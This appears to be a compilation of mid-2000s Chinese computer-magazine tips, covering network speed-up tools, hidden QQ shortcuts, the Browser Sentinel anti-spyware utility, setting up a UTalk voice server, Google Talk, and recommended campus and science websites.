第二步：在配置窗口中输入 MSN Messenger 账号和密码，单击“确定”返回到“系统配置”窗口中，再单击“启动”按钮启动 MSN 插件，最后单击“保存”即可完成设置。
现在，你只要将网易泡泡设置为隐身状态，就可以实现在隐身状态下与 MSN Messenger 好友聊天了。


（呆瓜）寻宝对象:新浪校园(大学版) http://y.sina.com.cn

寻宝理由:大学生活，可能是所有学校生活中最值得回忆的一段。每个经历过大学岁月的朋友，都能回忆起宿舍中和室友的夜话、替女生提暖瓶、在食堂排队买饭，考试前的彻夜不眠……无论你是还没上大学，或是正在读大学，还是已经从大学毕业，都不能拒绝这次探宝队的精彩大学生活之旅！

## 大学的情感生活

学生时代，什么时候的感情最让人刻骨铭心？以至于多年以后仍能念念不忘那段美好的时光？大学的纯真情感令人神往，但是学习和感情两不误才是最重要的。

链接:http://y.sina.com.cn/k/love/index.shtml

### 细说收藏夹:

- 大学谈恋爱该花谁的钱？
http://y.sina.com.cn/k/2005-08-15/161641631.html
对于没有自主经济能力的学生来说，这确实是一个非常棘手的问题，男生真的应该坚持“买单英雄主义”吗？

- 给MM修电脑的三个步骤，帅哥必看
http://y.sina.com.cn/k/2005-08-09/111541060.html

## 我们的大学生活

给MM修电脑，对于我们的很多男性读者来说，可能是一种向往的经历，这篇文章作为一篇指导性的文章……算了，还是当搞笑文字来看吧。

- 毕业分手时你会和旧情人互抽耳光吗？
http://y.sina.com.cn/bbs/2005/0815/1447325.html
毕业时分手，可能已经成为大多数校园恋情不可逃脱的一种宿命，有一部分情侣选择这种方式来结束这段情感，字不多但看了之后感慨万千……

## 入乡随俗，新生的规矩

如果你还没到读大学的年龄，那么先来预习一下大学新生应该注意的事项吧！

链接:http://y.sina.com.cn/focus/freshman/index.shtml

### 细说收藏夹:

- 新生第一课：“无聊”的大学有趣地过
http://y.sina.com.cn/news/2004-09-28/18697.html
大学教授的一堂精彩的大课，把新生的沉闷情绪一下子打破了。

- 新生校园娱乐完全指南:
http://y.sina.com.cn/news/2004-09-20/17676.html
从迎新晚会、军训，到运动会等等，都有“过来人”替你出谋划策。

- “每逢佳节倍思亲”，IP长途省钱攻略
http://y.sina.com.cn/news/2004-09-21/ba17767.shtml
在学校过节，免不了给家里打个电话问候问候，学会使用IP电话卡可以帮你省不少钱。

- 大一新生的高校印象：我的入学历险记
http://y.sina.com.cn/news/2004-09-10/16366.html

## 放眼看大学

更多地，我们应该听听外界的声音，通通透透地看待大学问题。其中涉及了毕业后寻找工作的误区、读研是否真的能提高就业竞争力、假期打工学以致用等大学生最关心的问题。

链接:http://y.sina.com.cn/i/school/index.shtml
（天草）

## 网络加速 “七剑” 下江山

今天，相当多的朋友上网都已经进入宽带时代了，本期我们为大家搜罗了全面提高网络效率的种种招数，让你使用同样的网络，也能快人一步。这些招数就好像徐克电影中的“七剑”一样，每把剑都有不同的性能，都适合不同人的使用习惯。有了这七把剑，不管是“风火连城”还是其他什么邪恶势力，我们都能做到无“网”不利！

## 游龙剑

性能:网速的终极之剑
剑主身份:所有的网络用户

### 1.电话线路 你现在还好吗？

电话线上上网是最常用的上网方式，其线路的好坏就会关系到数据传输是否稳定，如果平时接打电话，经常有沙沙的杂声或声音沉闷不清，说明电话线路可能有问题，它会比较严重地影响到你的网络数据传输，你可以拨打当地的客服电话申请维修。

#### 小提示

除检查室外线路外，别忘了你家里的电话线，很多家庭为了方便，都自己延长了电话线，它们的老化问题也会影响网速，而这部分线路电信部门是不负责维修的。

### 2.ADSL大猫 各有不同

ADSL大猫作为网络数据的解码设备，对于网络的影响很大，一些便宜的ADSL大猫在稳定性、抗电磁干扰性、散热方面都会大打折扣，对于长时间上网的朋友来说会很麻烦。ADSL大猫选购的原则引用一句广告词就是“名厂名牌，用着放心”，在国产品牌中，实达、华为、华硕、全向、UT斯达康、普天等都有不错的口碑。



另外，还要提一下经常被忽视的ADSL大猫的配套设备——ADSL分离器(见图1)，其作用是将ADSL线路中的网络数据和电话语音数据进行分离，如果它的质量不好或出现问题，也会导致网络故障，这时可以尝试跳过ADSL分离器，直接将ADSL大猫连接在电话线路入户端，这样并不影响到正常的上网。

### 3.致命的输油管——网卡和网线

在所有网络设备中，网卡和网线是技术含量最低的，导致劣质产品混杂其中，选购中一定要小心。对于网卡，建议选择3COM、D-LINK、TP-LINK、Intel、阿尔法等品牌产品。通过观察网卡的焊接质量也可以从外观上判断出它的好坏，如果发现某网卡在焊接上有异常，还是不要为好。对于网线，建议选择优质的正品AMP(安普)五类双绞网线，但这种网线假冒品较多，请注意观察网线上的印字是否清晰，正品网线上会印有“AMP SYSTEMS CABLE……CAT5”的字样，其中“CAT5”就表示五类双绞线，请注意识别。在购买网线时，建议让销售人员帮你按照100Mbps网线的标准制作好。

#### 小提示

网卡有10Mbps和100Mbps之分，10Mbps几乎已经绝迹，建议直接购买100Mbps的网卡。如果资金雄厚，其实可以选择千兆网卡，网速说不定会有意想不到的提升，具体内容请看本刊2005年第2期《千兆网卡让网速翻5倍？》一文。

## 莫问剑

性能:智能管理之剑
剑主身份:善于统筹安排时间的网民

### 实例1:时间的妙用

选择一个合适的时间上网通常可以获得更快的网络速度，一般来说，上网的高峰时段为每天上午的9:00~11:00，下午的13:00~15:00和夜晚的19:00~22:00(最高峰时段)，如果可以，应尽量避免在网络拥挤不堪的高峰时段上网。当然，访问不同的网站也可能会出现不同的高峰时段，如果你经常访问一些特定网站，可以通过Any Speed分析不同时段的网络访问速度，找出它们的最佳访问时段。

#### Any Speed小档案

软件版本:1.4
软件大小:880KB
软件性质:共享软件
适用平台:Windows 9x/2000/XP
下载地址:http://www.pysoft.com/Downloads/anyspd11.zip

“Browser”按钮从收藏夹中进行选择，然后根据提示单击“Next”按钮三次即可。添加完毕后，在主界面中单击“Start”按钮就可以在上面看到动态的流量图。如果流量显示比例超过窗口，我们可以单击绿色的向上箭头按钮来缩小比例。

### 实例2:让流量替我作决定！

Any Speed还有一个特殊的功能，可以根据测试的网站流量自动打开或关闭指定的程序，这样就可以让它帮你实现高流量自动下载、低流量自动关机等功能，在测试网站添加向导的第四步界面中，选中“Perform action if speed value will be less or equal”表示流量值低于或等于设定值时执行动作，选中“Perform action if speed value will be more or equal”表示流量值高于或等于设定值时执行动作，在流量栏中设定好流量值，单击右边的“Min speed action”按钮或者“Max speed action”按钮即可设置要执行的动作，例如“Play a sound”播放声音文件、“Run a program”运行一个程序或者“Close a program”关闭一个程序。

#### Just Do It

当流量值大于100KB/s时，自动到 http://ent.sina.com.cn 网站上下载“超级女声”总决赛的录像，当流量值低于30KB/s，自动关闭程序，并关闭电脑。

## 天瀑剑

性能:忽攻忽守，意到随成
剑主身份:善于对网速“进攻”的网民

### 实例:不改注册表的网络优化软件

在使用BT进行全速下载时，像Quake3、CS之类需要低Ping值的游戏就无法流畅运行了，只能是玩游戏时不再下载。现在我们只需要使用一款叫做cFosSpeed的网络加速软件，就能解决以上这类问题。它和传统的网络优化软件不同，它不是简单地调整注册表相关数值，也不是利用数据缓存，而是通过它独有的Traffic Shaping功能优化TCP ACK (TCP 数据报握手过程)排序，将它的优先级提高，从而加速网络运行。

在使用cFosSpeed优化加速后，我的电脑完全可以在BT下载时正常浏览网页和玩游戏，也不会受到任何影响，而且即使将BT软件的上传速度调整为极限速度，也不会影响到下载速度达到网速的极限。只需要在cFosSpeed主界面中单击“设置”按钮，然后单击“优化”按钮中的“调整功能”即可。

## 青干剑

性能:保守者之剑
剑主身份:不喜欢冒险，喜欢拿来主义的网民

网络上有许多网络优化类的加速工具，原理都是通过修改注册表中的网络参数来达到加速的目的，有人说效果明显，也有人却说是骗人的，完全无效！这究竟是怎么回事呢？其实也很简单，系统默认网络参数是一种适合大部分网络情况的数值，但也可能对一些地方不太合适，而这些优化类软件通常可以根据实际的网络情况“因地制宜”，而对于一些系统默认参数已经适合的用户来说，就会感觉优化后也没有什么变化。不过，对这些优化器要有一个最基本的认识就是，无论怎么优化，也不可能超越网络服务商提供给你的最大网络带宽，一些宣称可以超越这种硬件限制的优化软件肯定是骗人的了。另外，如果你的电脑许多网站很难连接，连接上也非常慢，或者无法发送包含附件的邮件，使用这些优化加速器效果是非常明显的。下面笔者以网络狂飙(NetSpeeder)为例介绍一下使用方法。

NetSpeeder提供有两种优化方式，一种是单击“优化向导”，根据向导提示依次选择网络连接类型、网络接口(即上网的网卡或设备)、优化策略即可。另外一种是单击“精确调整”，根据你的网络连接类型，手工设置相关的网络参数，一般都选择推荐值即可达到最优化设置(见图2)。优化后重启系统即可感受到网速提升了。最后，你可以单击“速度测试”按钮，输入一个较大体积的网络文件下载地址，来对比优化前后的速度。



#### 小提示
如何对比优化前后的上网速度
我们可以在专业的网速测试站点进行检测。首先关闭其他所有网络数据传输软件，在浏览器中打开http://www.linkwan.com/gb/broadmeter页面，单击“速度测试”图片按钮，再选择具体的测试点，也可以从“世界网络重点测试点”中直接选择测试。

## 竞星剑

性能:有铁珠的双手剑，适合特殊用户
剑主身份:校园网用户和喜欢访问外国网站的网民

### 实例:校园网速度腾空
我们经常会遇到一些访问速度特别慢的网站，特别是一些国外网站，尤其是在教育网内的用户更是如此，通过代理服务器上网是解决这些问题的最佳方法，虽然我们可以找到一些代理服务器列表，但要找出可用而且速度理想的却并非易事。这里推荐给你一款集代理服务器搜索和验证为一体的好工具——ProxyThorn(花刺代理验证)，下载地址:http://nj.onlinedown.net/soft/33681.htm。
运行ProxyThorn后，首先单击“下载代理资源”来添加最新的代理服务器列表，然后单击“验证全部”按钮对列表中的代理服务器地址进行验证，待验证结束后，单击“时间/状态”列使之按连接速度排序(见图3)，数值越低速度越快，选中速度最快的那个代理服务器，单击“设为IE代理”按钮即可。



#### 小提示
如果你使用的是GreenBrowser浏览器，则可以在设置好IE代理后，单击工具栏“代理”按钮右边的下拉箭头，选择使用“IE代理服务器”即可。

## 日月剑

性能:七剑中最亮的一把，能够上天入地
剑主身份:喜欢在山谷、海滩无线上网的网民

对于笔记本电脑使用GPRS/CDMA移动上网以及一些仍然在使用拨号上网的用户来说，网络速度的提升显得更为迫切和重要，不过限于网络接入方式的物理速度限制，许多方法效果并不明显，这里笔者介绍给大家一种新工具——网页浏览加速器200%(下载地址:http://www.mydipan.com/down/ispeeduper.exe)，它的基本原理就是将浏览器所请求下载的数据经过加速网关压缩优化后再发送到本地解开浏览，从而达到加速效果，通常可以达到2倍左右的加速效果，这种方法对于网速在512Kbps以上的宽带用户来说就没什么大的效果了，仅建议低速网络用户使用。

## 舍神剑

性能:剑身含强烈生命力，无“网”不利
剑主身份:追求完美下载的网民

### 1.普通下载加速

- (1)做个“专吃窝边草”的兔子
许多大型下载网站会提供几个甚至几十个下载地址，如何判断哪个下载链接最快呢？首先国内普遍存在着“跨网难”的问题，例如若是电信网络接入，下载网通服务器上的文件就会很慢，所以要选择与自己ISP一致的服务器。例如在华军软件园的下载链接名称中都会显示出该服务器的网络类型，例如电信、网通、铁通等。其次是就近原则，通常选择本省内的服务器，都能获得较快的速度。

当然，上面方法操作起来也有些难度，有时可能你并不能从服务器名称上判断出它的远近，甚至有些根本没有服务器名，只是下载点一、二、三之类的名称，这时可以请Dipstick来帮忙，它可以帮你自动分析出最快的链接(下载地址:http://hdt.downloadsky.com:8080/down/dipstick-3.0.exe)。

运行Dipstick后，它会在屏幕上显示出一个悬浮窗口，而且始终处于最上层显示，当网站提供有多个不同下载链接时，只需用鼠标反白选中这些链接，把它们一块拖动到Dipstick悬浮窗口上，这时软件会弹出对话框，将所有下载链接显示出来，直接单击“OK”按钮，Dipstick就会自动对这些下载链接的响应速度进行后台测试，稍等片刻，当Dipstick测试完毕后，会自动显示出所有下载链接中响应速度最快的那个链接，单击“Open this URL”按钮就能打开该链接进行下载，不过最方便的还是单击“Copy URL”按钮把下载链接复制到剪贴板中，这时网际快车的剪贴板监视功能会自动添加复制的下载链接作为新任务，直接确定就可以进行高速下载了。

- (2)大型文件看清楚再下
LoadScout(下载地址:http://yncnc.onlinedown.net/soft/28508.htm)可以让你先预览ZIP、RAR压缩包中的文件，看清内容后再下载，在下载超大文件时能有效节约下载时间。在网页中的文件下载链接中单击鼠标右键，从快捷菜单中选择“Open with LoadScout”命令，这时会打开地址添加对话框，将下载链接粘贴到第一行中，单击“OK”按钮。LoadScout就会自动下载这个压缩包的文件头信息，这时可以看到在任务列表窗口中增加了一个新的任务，当此任务显示“Finished”时，在主窗口右边就可以看到压缩包内的文件列表了。同时你还可以选中需要下载的文件，然后点击工具栏上的“Download”按钮就能单独下载其中的部分文件了。

### 2.BT下载加速

BT是现在非常流行的大型文件和多媒体文件下载方式，BitComet则是大家最喜欢使用的BT下载工具之一，现在我们可以使用一款叫做BitComet Accelerator的软件(下载地址:http://www.bitcometaccelerator.com/bitcomet_accelerator.exe)来为你的BitComet加速，它号称能提高BitComet一倍的下载速度，其原理是定时帮助BitComet搜索到更多下载种子，对于冷门种子效果比较明显。

## 键行天下——QQ中的隐秘快捷键

一日和QQ好友在TM里聊得正欢，想复制输入框的文字，无意中按成了“Ctrl+F”组合键，这时TM里突然弹出“字体”设置对话框。我觉得很好奇，因为腾讯并没有直接公开这方面的资料，网络上也没有这方面的文章，于是笔者分别在QQ和TM里尝试了其他Ctrl组合键功能并做了整理，有兴趣的读者不妨记下这些快捷键(没有特别说明，表示该快捷键在QQ/TM里实现相同的功能。

- Ctrl+E:对输入框里当前行的文字居中对齐(不会应用到“消息栏”);
- Ctrl+L:恢复输入框里的文字左对齐;
- Ctrl+R:对输入框里当前行的文字右对齐(不会应用到“消息栏”，TM是打开信息管理器);
- Ctrl+鼠标滚轮:迅速调整输入框里的文字显示大小(不会应用到“消息栏”);
- Ctrl+Z:清空/恢复输入框里的文字并恢复为默认显示大小;
- Ctrl+F:QQ里直接显示字体设置工具条，TM弹出“字体”设置对话框;
- Ctrl+G:QQ中无对应功能，TM会弹出“TM设置”窗口;
- Ctrl+I:QQ实现在输入框中输入表格符，TM则打开“查看用户信息”窗口;
- Ctrl+J:输入框里回车;
- Ctrl+M:在QQ实现输入框里回车，TM则实现给该联系人“发送手机短信”;
- Ctrl+S或Ctrl+F4:在QQ里弹出QQ搜索网页，TM无对应功能;
- Ctrl+~(Esc正下的按键):全局热键，隐藏第一个TM程序打开的所有窗口(包括主窗口)。

当然了，像“Ctrl + A”、“Ctrl + C”、“Ctrl + V”这些耳熟能详的快捷键，这里就不列举了！

## 我的IE一直很安静

IE 所具备的可扩充性让其功能无限增强，但同时也为一些间谍、广告、恶意软件提供了可乘之机，而这些通过IE偷偷“溜入”系统的插件并不像其他的程序那样可以直接看到其进程进行处理，它们必须通过专用的工具才能让其“现身”，在这方面有一款非常著名的程序HijackThis，但它界面简陋，使用难度大。这里笔者推荐给读者朋友另外一款专业的IE安全防护工具——Browser Sentinel（以下简称BS），不仅拥有与HijackThis同样强大的功能，可以帮你查出系统中所有与IE发生关联的程序或插件，并将其禁用或删除，而且它具备IE安全实时监控功能，可谓是专业的IE安全防火墙，弥补了传统网络防火墙在此方面的不足。

### Browser Sentinel小档案

- 软件版本:2.1.1
- 软件大小:1565KB
- 软件性质:共享软件
- 适用平台:Windows 9x/2000/XP
- 下载地址:http://www.browsersentinel.com/BrowserSentinel2Setup.exe

BS 安装运行后，会自动缩小在系统托盘中后台工作，双击其托盘图标即可打开其主界面，其主要功能分为四大模块。

## IE: 我不用再担惊受怕了!

在主界面中的“Internet Explorer”分支下可以查看与IE安全息息相关的许多项目。

### 1.BHOs — 警惕度：★★★★★

“BHOs”的完整名称是“Browse Helper Objects”，即浏览器辅助对象程序，本身是用来扩充浏览器功能的小插件，但这里面却是鱼龙混杂，不仅有合法的诺顿杀毒、江民杀毒等辅助插件，一些间谍广告软件也会经常在此“落户”。在右边列表中可以清楚地看到系统中所有的BHOs列表，单击其名称，在下面可以看到它的CLSID、文件路径、注册表键值等信息(见图1)，可以为你判断它的合法与否提供参考，但很多情况下，普通用户很难通过这种方式进行准确的判断，如果你觉得某个BHOs比较可疑，可以通过下面的方法进行判断。


### 实例:判断图中的“InstaFinK.dll”是否属于恶意性质程序

在“InstaFinK.dll”模块信息框中的CLSID行上单击鼠标右键，选择“Search on the Internet”，BS会自动使用Google搜索引擎查找与此相关的信息，当然，这种搜索的结果很多，分析判断会比较麻烦。这里笔者介绍一种更快更准确的方法。

首先在浏览器中打开http://computerops.biz/CLSID.html网站，这是一个专门收集CLSID的知识库网站，可以帮助我们进行分析判断。然后在文本框中输入“InstaFinK.dll”的CLSID序号(在CLSID行单击右键选择“Copy to Clipboard”可自动复制)“{4E7BD74F-2B8D-469E-90F0-F66AB581A933}”，单击“Search”按钮，注意搜索结果中的“STATUS”列显示为“XBHO”(见图2)；这里的“X”表示这是一个已经被认定的间谍或广告程序，后面的“BHO”表示它是BHOs类型。对于提示为“X”的一般建议进行修复，对于大部分的BHOs，通常都可以单击“Delete”删除，但对于这些恶意BHOs来说，有时并不能解决问题，下次重新启动时还会出现，这时你可以在网站搜索结果中单击“DESCRIPTION”列中的提示链接，查看针对该BHOs的详细清除方法。

#### 小提示
搜索结果中的“STATUS”列还有其他的标记:“L”表示合法模块,“O”表示没有被数据库收录,无法断定其性质。另外，还有两个BHO列表网站，可以作为分析参考。
http://www.sysinfo.org/bholist.php
http://www.spywaredata.com/spyware/bho.php

### 2.ActiveX — 警惕度：★★★★★

我们访问网页时，系统会自动下载很多ActiveX控件，有些是你知道的，有些是你不知道的，而许多间谍软件或木马程序时常会通过这些ActiveX控件偷偷侵入系统。现在我们在这个列表中就可以直接看到所有安装在系统中的ActiveX控件的CLSID、名称、文件路径、注册表位置等信息，如果觉得可疑的话，可以通过其CLSID序号进行搜索判断，并从这里将它们清除即可。

### 3.Pages — 警惕度：★★★★★

这里显示了所有的IE页面设置情况，例如主页、默认搜索页等，这些页面设置是最经常而且最容易被恶意网页破坏的地方，如果你确认某个页面设置不是你自行修改的，可以直接单击“Reset”按钮将其恢复为系统默认设置(见图3)。



## 伪造进程藏不住

在BS主界面的“System”分支下可以查看与系统相关的启动程序、服务、进程、HOSTS文件等信息。

### 1.Startup Programs — 警惕度：★★★★★

这里列表显示的是所有随系统启动时自动运行的应用程序。对于陌生的自启动程序，可以在列表中的程序名称上单击鼠标右键，选择“Search File on the Internet”，在网络上进行搜索并分析其性质，如果是恶意程序，则要坚决单击“Delete”予以删除。

### 2.Running Programs — 警惕度：★★★★★

这里显示的是当前系统中的程序进程列表，很多细心的朋友可能会问：为什么这里显示的进程没有任务管理器中的多？其实这是BS的一项非常实用的功能。对于Windows XP操作系统来说，正常的系统进程就很多，而我们在分析进程时，首先就要判断这个进程究竟是正常的系统进程，还是第三方的程序进程，这对于许多普通用户来说，并非易事。而BS在默认情况下只显示由第三方程序创建的进程，而正常的系统进程会自动隐藏起来，这为分析进程提供了极大的帮助，减少了分析难度。如果你想显示系统进程列表，单击取消右下角的“Show only non-system”选项即可。

选中进程名称，在下面可以看到该进程描述、厂商、路径、版本、启动位置等详细信息(见图4)，单击“Terminate”可以结束选中的进程，而单击“Delete”则可以直接中断进程并删除进程源文件，在清除木马病毒程序时这个功能非常有用。


#### 小技巧
★在删除进程源文件时，有可能出现文件被锁定而无法直接删除的情况，这时我们可以在BS中打开“Options & Tools”选项，单击“Delete On Boot”按钮，然后选择要删除的进程源文件，待下次系统重启时该文件就会被自动删除。
★几乎在每个列表右边都会有四个按钮:Mark Safe、Mark Blocked、Edit Safe、Edit Blocked，使用前两个按钮分别可以将已经确认为安全或者危险的IE相关插件或程序做上相应的标记，以便管理。不仅如此，对于被Mark Blocked标记的，BS会在它们再次入侵系统时自动卸载或删除，进行自动防护。

## IE 攻击实战演习

这里笔者做个实验来测试一下它的防护能力，当尝试访问一个恶意网页时，刚打开网页，BS就弹出提示对话框告诉我IE设置被修改(见图5)；从对话框中可以看出被修改的是IE主页(Start Page)，而且还可以看到修改前后的数据，单击“Revert”即可恢复为原来的设置。当然如果你是自己修改的设置，则可以单击“Accept”按钮接受修改。

当然，BS的IE实时监视功能并不仅仅局限于IE页面设置的防护，对于任何向系统中安装的BHOs、Toolbars、Buttons、ActiveX以及添加的Startup Programs等，它都可以实时监视并报警提示，在BS界面中单击“Options & Tools”，然后在右边单击“Zones Configuration”按钮，在弹出的对话框列表中可以看到BS可以监视的IE安全事项，你可以按照自己的要求进行定制。


#### 小技巧
对于IE页面设置等，你可能希望它永远不被修改，换句话说，当它被修改时，总是会选择恢复到默认的正常数据。这时你可以在BS界面中的“Options & Tools”设置中单击“New Item Actions”按钮，选中“Change Page/Prefix/String”行，从弹出菜单中选择“Revert”，以后当出现IE页面设置被修改时，BS就不会再进行报警，而是直接恢复到原来的正确数据。
(软件DIY)## 架设自己的战队语音服务器

经常与三五好友组队上网打游戏，为了便于联络，大家一般都挑选距离近的座位，可并不是每次都能如愿，经常被网吧老板分配东一个西一个，虽说大家可在游戏里中文聊天联络，但是速度慢而且麻烦。如果能架设一个自己战队的语音服务器就好了，除了游戏时使用，平时还可在里面与好友海阔天空地聊天。

| 项目 | 详情 |
| :--- | :--- |
| 软件名称 | “UTalk服务器”档案 |
| 软件大小 | 2290KB |
| 软件性质 | 免费软件 |
| 适用系统 | Windows 2000/2003 Server/XP |
| 下载地址 | http://www.utalk.com.cn/down/server.html |

下载并安装“UTalk服务器”（简称UServer）后，我们来建立自己免费的战队语音服务器，建立之前请大家先准备好一个新浪UC账号。

第一步：运行UServer，软件界面如图所示，它会自动获取你的IP地址，省却手动输入的麻烦，这里我们点击“管理”按钮打开UServer管理页面。

第二步：在UServer管理页面输入你准备好的UC账号和密码登录，就可以看到UA（UTalk Administrator）管理页面了，我们点击“创建语音服务器”链接，在“添加语音服务器”页面中输入语音服务器名称、类型等信息，然后点击“确定”按钮，这时系统就会告知服务器建立成功，并通知你的服务器ID和校验密码，请将这些信息牢记。



小提示：为了提高自己语音服务器的安全性，防止未授权用户登录，可以在“添加语音服务器”中勾选“需要密码”和“仅通过IP或ID查询”，这样设置后能大大提高语音服务器的工作韧性，防止过多用户登录造成死机。利用UServer可以在一台电脑上同时运行多个服务器，添加服务器的方法同上，不过需要注意的是，在“添加语音服务器”页面中一定要将下方的“分配端口号”更改成新的端口号，以免与前面建立的语音服务器冲突。

第三步：有了自己的语音服务器，日后管理是个让人头疼的事，我们可以多任命几个超级管理员，众人拾柴火焰高，大家一起来加强管理。点击“超级管理员(UA)账号管理”，在弹出的页面中输入新的管理员的UC称号，再点击“添加”按钮便可，以后这些管理员在局域网内可以以 http://你的IP地址:9089 的地址来进入管理页面，行使管理权力。

第四步：顺利架设完成战队语音服务器后，大家到 http://www.utalk.com.cn/ 下载安装UTalk客户端软件，用你的UC号码或新浪会员账号登录，在登录界面的“服务器”栏中输入你建立的语音服务器的电脑的IP地址及端口号，就可顺利连接上战队语音服务器。UTalk客户端的使用非常简单，你可以双击界面中的频道名称来切换频道，对着话筒说话便可让此频道内所有用户都听到你的声音。现在就戴上你的耳麦与好友一起组队升级去，再也不用理会游戏中打字的烦恼。

小提示：如果在登录时没有输入UTalk服务器地址，可以在软件启动后查找一个UTalk服务器，执行“登录→查找语音服务器”，然后选择“根据服务器ID查找”，将你战队的语音服务器ID输入后，点击“查找”按钮就可找到服务器，最后双击服务器名称便可接入语音服务器与好友一起聊天。

Just Do It：举一反三，利用UTalk服务器除了建立战队语音服务器，还可建立论坛语音服务器，在服务器管理中可以设置版主管理员，在UTalk客户端中还可创建与论坛版块名称一样的频道，方便用户语音交流，彻底将论坛带入到语音时代。

## “狗狗”开始说话了

狗狗开始说话了？！别误会，这不是美国科幻片，而是指Google刚刚推出的一款即时聊天软件——Google Talk（以下简称GTalk），它不仅具备基本的文字聊天功能，还提供了与Skype不相上下的语音聊天功能，而且还整合了Gmail邮箱提醒功能，对于众多Google的Fans和Gmail用户来说，这绝对是一个不可错过的软件。

| 项目 | 详情 |
| :--- | :--- |
| 软件名称 | Google Talk小档案 |
| 软件版本 | 1.0.0.64 |
| 软件大小 | 1227KB |
| 软件性质 | 免费软件 |
| 适用平台 | Windows 9x/2000/XP |
| 下载地址 | http://www.hanzify.org/?Go=Show::List&ID=8955&Down=1&L=cn |
| 软件备注 | 这里提供的是汉化版本下载地址，在安装时要注意汉化程序捆绑有“划词搜索”，可在安装过程中取消。如果想下载英文原版，可以访问GTalk主页 http://www.google.com/talk。 |

### 超简约的风格

和其他即时聊天软件一样，运行GTalk后首先需要进行登录，这里要用Gmail邮箱的用户名和密码进行登录，所以现在还没有Gmail邮箱的朋友暂时无法体验了，不过现在你可以到 http://www.bytest.com 申请到Gmail邮箱。

登录GTalk后，可以看到其主窗口非常简洁，没有任何广告。主窗口左上角的LOGO图标下面显示的是你的昵称和在线状态，单击向下的箭头可以切换在线状态，选择“自定义信息”还可以设置在线和忙碌状态的个性签名（见图）。下面还有一个搜索栏，当你的好友很多时可以进行即时好友搜索，但不能结合Google引擎进行网络搜索，有些遗憾。



### 聊天快速上手

要聊天当然得有好友了，单击主窗口右下角的“添加好友”，然后输入要添加的好友Gmail邮箱（可以一次输入多个Gmail邮箱，之间用英文逗号分隔），如果你的Gmail邮箱中已经保存有联系人列表，也可以直接单击“从我的联系人中选择添加”按钮从中选择添加为好友，最后单击“下一步”按钮即可完成好友添加。和其他即时聊天软件类似，要加对方为好友，需要通过对方的验证，在GTalk中称为接受邀请，如果对方暂时没有接受你的好友邀请，其昵称后面会注有“已邀请”字样，这时你只能单击昵称后面的邮件图标给他发Gmail邮件联系，而不能和他即时聊天。

小提示：由于GTalk没有提供好友分组功能，当好友较多时，管理起来不太方便，这里笔者有个技巧，你可以在改名时将同一组别的好友昵称前面都添加相同的字母前缀，例如电脑爱好者编辑部的好友昵称前面都添加“Cfan”，然后选择“按名称排序”即可实现自动分组排列了。

千万别小瞧了GTalk的语音聊天功能，它采用了VoIP技术，根据笔者测试，语音通话质量不在Skype之下！在一般宽带网络上，声音效果非常好，北京到广州的电话效果相当清晰，不过建议通话双方最好使用同一网络，如都使用电信或网通，否则速度会有一定影响。

小提示：GTalk聊天窗口有个非常独特的设计，当打开多个聊天窗口时，它会自动排列于GTalk主窗口右边，而且多个聊天窗口只在任务栏中显示一个任务按钮，最为独特的是，你可以单击聊天窗口标题栏使其收缩，这种设计让多人聊天非常方便。

### Gmail邮箱整合

GTalk中的Gmail邮件实时提醒功能更是非常优秀，当Gmail邮箱中有新邮件时，它会在屏幕右下角以小窗口提示邮件标题和内容预览，单击左右箭头可以预览其他邮件，单击左上角的邮件图标则可以直接在IE中打开该邮件的回信窗口。如果你希望立即查看当前Gmail邮箱中的邮件情况，可以右键单击GTalk系统托盘图标，选择“立即检查邮件”即可。

小提示：如果想快速关闭邮件提醒小窗口，直接右击这个小窗口即可。

### 多账户登录

GTalk在默认情况下只能登录一个账户，不过简单改造一下就能让它具备多账户同时登录功能，而且可以同一账户同时多次登录。右击桌面上的“Google Talk”快捷方式，选择“属性”，在“快捷方式”选项卡中的“目标”栏后面添加一个启动参数“/nomutex”（注意参数前面有一空格），单击“确定”按钮保存修改，然后用这个快捷方式启动GTalk，即可实现多账户同时登录，不过要注意的是，登录时不要选择“记住密码”自动登录，否则它会自动登录同一账户。

## 科学才是硬道理

好了，你不必是科学家，我们为你准备了一间专用的虚拟实验室。链接：http://sciexplorer.etvonline.tv/scienceexplorer_scilab_menu.html

寻宝对象：科学探索 http://sciexplorer.etvonline.tv/

寻宝理由：很多人认为，科学因为严谨而死板、因为真实而无趣。确实，在多数情况下，靠书本上的知识来学习科学，很容易让人觉得枯燥乏味。今天要给大家介绍一个好地方，科学原来是如此有趣的……（该网站默认为英语，请点击页面左侧的“中文版”切换至中文）

稀饭收藏夹：
①神奇的网上解剖
记得以前上生物课的时候需要解剖小白鼠，还未“下手”已经恶心得想吐了，而且总觉得非常残忍。在虚拟实验室里，有一套“哺乳类的消化系统（老鼠）”的模拟解剖系统，不用“杀生”也能顺利地完成解剖了！点击解剖系统左上角的问号图标，系统就能对当前应进行的步骤进行提示。

链接:http://sciexplorer.etvonline.tv/



### 在网上，我有我的实验室

电影、动画片里的科学家整天把自己关在研究所里，面对一大堆奇奇怪怪的玻璃容器，就能研究出令人瞠目的惊人成果。现在

②小小太空人的太阳系之旅
从很小的时候我就知道，在月球、火星上可以跳得很高，而直到上了学以后听了牛顿被苹果砸的故事，才知道原来是引力在起作用。要记住物理课上那一大堆的公式实在是太不易了，如何才能直观地感受到引力的作用呢？我们的英雄“小小太空人”正要向太阳系九大行星进发，来看看他在每颗行星上究竟能跳多高吧！

链接:http://sciexplorer.etvonline.tv/scienceexplorer_scilab_06.html

③水火箭，升天吧
有没有玩过用饮料瓶做成的水火箭？将水和空气按一定的比例压缩到瓶体中，水火箭就能升空了。至于水和空气的比例，则是我们这次需要实验的内容，只有比例恰到好处，才能让水火箭飞得最高。

链接:http://sciexplorer.etvonline.tv/scienceexplorer_scilab_03.html

④山崩、地裂、火山爆发
可能世界上最喜欢拍灾难片的国家是美国，巨大的龙卷风、彗星撞地球形成的空前海啸、地球要爆炸，甚至火星人血洗地球……你有没有兴趣了解灾难背后的故事？山崩、地裂会带来什么？火山爆发形成的原因是什么？

链接:http://sciexplorer.etvonline.tv/scienceexplorer_scilab_04.html

⑤水的三种形态
降温可以把水变成冰块，加温则可以把水变成气体，这个“固态→液态→气态”的转换过程，只有动画才能表达得清楚。

链接:http://sciexplorer.etvonline.tv/scienceexplorer_scilab_01.html

⑥让液体坐一回“过山车”
实在难以忘怀“嘉年华”里各种让人五脏六腑里折腾出来的游乐项目，有没有想过让液体也坐一回“过山车”呢？其实是把各种液体装进离心机内，然后根据液体的上下关系来确定其密度，也是很好玩的游戏。

链接:http://sciexplorer.etvonline.tv/scienceexplorer_scilab_02.html

科学短片大串烧
